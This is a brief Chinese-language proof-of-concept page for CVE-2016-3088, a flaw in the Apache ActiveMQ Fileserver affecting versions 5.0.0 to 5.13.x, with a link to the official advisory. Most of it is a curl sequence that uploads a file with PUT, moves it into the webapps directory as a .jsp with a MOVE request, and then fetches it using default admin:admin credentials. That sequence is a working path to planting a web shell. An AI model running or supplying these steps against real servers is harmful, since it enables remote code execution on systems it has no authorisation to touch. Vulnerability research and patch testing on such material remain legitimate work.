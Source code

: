 ### CVE-2016-3088 - PUT + MOVE file:// 漏洞

影响版本

* 5.0.0 - 5.13.x

参考文档

* [CVE-2016-3088 - ActiveMQ Fileserver web application vulnerabilities](http://activemq.apache.org/security-advisories.data/CVE-2016-3088-announcement.txt)

Poc

```
#创建测试文件
echo hello world > 123.txt

# 上传文件
curl -vv http://127.0.0.1/fileserver/123.txt -XPUT --data @123.txt

# 改名，需要知道绝对路径
curl -vv -X MOVE --header 'Destination: file:///activemq/webapps/123.jsp' 'http://127.0.0.1/fileserver/123.txt'

# 访问
curl --user admin:admin 'http://127.0.0.1/123.jsp'
```

